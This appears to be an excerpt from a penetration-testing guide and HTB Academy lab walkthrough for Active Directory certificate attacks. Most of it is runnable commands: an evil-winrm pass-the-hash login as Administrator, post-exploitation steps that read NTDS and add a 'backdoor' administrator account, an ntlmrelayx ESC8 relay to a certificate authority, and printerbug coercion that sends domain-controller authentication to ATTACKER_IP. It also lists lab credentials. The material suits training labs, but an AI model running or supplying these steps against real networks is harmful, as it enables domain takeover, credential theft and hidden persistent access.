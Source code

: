 ### Evil-WinRM Connection
```bash
# Deactivate venv (system evil-winrm needed)
deactivate

# Connect as Administrator
evil-winrm -i dc01.domain.local -u Administrator -H ADMINISTRATOR_NTHASH

# Expected connection:
Evil-WinRM shell v3.x
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

### Post-Exploitation
```powershell
# Verify privileges
whoami /all
net user /domain

# Access sensitive data
type C:\Users\Administrator\Desktop\flag.txt
dir C:\Windows\NTDS\

# Persistence options
net user backdoor Password123! /add
net localgroup administrators backdoor /add
```

## 🎯 HTB Academy Lab Walkthrough

### Lab Environment
- **Domain**: INLANEFREIGHT.LOCAL
- **Domain Controller**: dc01.inlanefreight.local (10.129.234.174)
- **Certificate Authority**: 10.129.234.172
- **Credentials**: wwhite:package5shores_topher1
- **Target**: Administrator's flag

### Step-by-Step Execution

#### 1. ESC8 NTLM Relay Setup
```bash
# Terminal 1: Start ntlmrelayx
sudo impacket-ntlmrelayx -t http://10.129.234.172/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

#### 2. Authentication Coercion
```bash
# Terminal 2: Force DC authentication
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.174 ATTACKER_IP

# Expected result: DC01$.pfx generated
```
